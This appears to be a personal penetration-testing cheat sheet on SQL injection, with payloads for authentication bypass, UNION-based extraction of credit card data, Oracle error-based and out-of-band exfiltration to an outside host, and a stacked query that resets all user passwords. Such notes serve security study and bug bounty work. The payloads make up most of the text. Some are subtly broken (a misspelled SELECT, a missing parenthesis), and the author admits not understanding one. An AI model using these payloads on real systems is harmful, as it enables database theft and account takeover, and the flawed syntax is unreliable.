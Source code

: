 # SQL Injection

## Standard Exploitation

* Add an always true condition :
  * `1' or '1' = '1`
  * `1' or 1 = 1 #` \(comment instead of closing the string\)

```sql
# Transform this request : 
SELECT * FROM Users WHERE Username=’$username’ AND Password=’$password’

# To that : 
SELECT * FROM Users WHERE Username=’admin’ AND Password=’1’ OR ‘1’ = ‘1’
```

* Use `LIMIT` if needed
* Stack request by terminating them with `;`

## Union Exploitation

* Extend a `SELECT` request with an `UNION`

```sql
# Tansform this request :
SELECT Name, Phone, Address FROM Users WHERE Id=$id

# To that :
SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable
```

* The select of your union needs to have the same number of columns as the initial select, and of the same type
  * To guess the right number of columns, use `ORDER BY <nb>` \(if it returns a result instead of an error, it's the right number\)
  * To guess the type, start with `NULL` and check the error message
* `ALL` is used against `DISTINCT`
* If only the first result is shown \(aka, the one from the initial request\), give an invalid id so that it's the result of the union which will be use

## Error Based Exploitation

* With oracle, use this type of payload :

```sql
|| UTL_INADDR. GET_HOST_NAME((SELECT user FROM DUAL)) --
```

* It'll return : `ORA-292257: host SCOTT unknown`, revealing the user

{% hint style="info" %}
Check the syntax for other DBMS
{% endhint %}

## Out of band exploitation

* With Oracle

```sql
|| UTL_HTTP. request(‘testerserver.com:80’ || (SELET user FROM DUAL) --
```

{% hint style="info" %}
* Isn't a `)` missing ?
* Check the syntax for other DBMS
{% endhint %}

## Stored Procedure Injection

* This type of syntax exist

```sql
Create procedure get_report @columnamelist varchar(7900) As Declare @sqlstring varchar(8000) Set @sqlstring = ‘ Select ‘ + @ columnamelist + ‘ from ReportTable‘ exec(@sqlstring) Go
```

* Which we can abuse with  :`1 from users; update users set password = ‘password’; select *`
* But i don't know this syntax so i don't know how it works

## Insider Info

If you have an injection in a place where doing an `1'or '1'='1` isn't useful, you may still be able to use it to show the table name & structure by injecting an sql command

## Bug bounty notes

* Extracting the database name, user name & host name is generally harmless but might not be permitted by the program. In those case, a `sleep` command might be considered enough of a proof

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* Misc research

